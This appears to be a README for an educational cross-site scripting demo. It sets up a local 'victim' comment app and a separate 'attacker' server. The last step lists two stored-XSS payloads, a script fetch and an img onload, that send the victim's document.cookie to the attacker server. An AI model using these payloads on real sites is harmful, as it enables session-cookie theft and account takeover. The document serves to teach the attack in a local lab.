 ## XSS Demo attack web app

To run this project, follow these steps:

1. Install the dependencies by running the following command:

   ```shell
   npm install
   ```

2. Launch the web application with the following command:

   ```shell
   node server.js
   ```

3. Point your browser to [http://localhost:3000](http://localhost:3000) to access the victim web app.

   Then you can enter javascript and it will be saved and run on the page: `<b>Hello from my bold comment</b>`

4. Launch the attacker with the following command:

   ```shell
   node attacker-server.js
   ```

5. Open in browser [http://localhost:4000](http://localhost:4000/) - the attacker web app

6. Add these to the victim website: 

   - the script way: <script>fetch('http://localhost:4000?data=${document.cookie}')</script>
   - the image way: <img src="abc" onload=this.src='http://localhost:4000?data='+document.cookie>